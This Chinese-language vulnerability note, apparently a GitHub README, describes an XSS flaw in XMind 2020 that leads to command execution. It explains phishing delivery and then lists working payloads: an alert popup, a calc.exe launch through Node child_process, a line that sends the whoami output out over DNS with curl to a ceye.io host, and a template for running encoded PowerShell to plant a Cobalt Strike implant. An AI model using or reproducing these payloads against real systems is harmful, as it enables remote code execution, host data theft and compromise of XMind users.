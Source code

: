 # XMind 2020 存在XSS导致命令执行漏洞
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
## 部分payload
简单弹窗<br>`<img src=1 onerror=alert("1")>`<br>
弹计算器<br>`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
DNS带外<br>``<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">``<br>
通过对powershell进行编码，然后替换payload上线CS<br>`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`
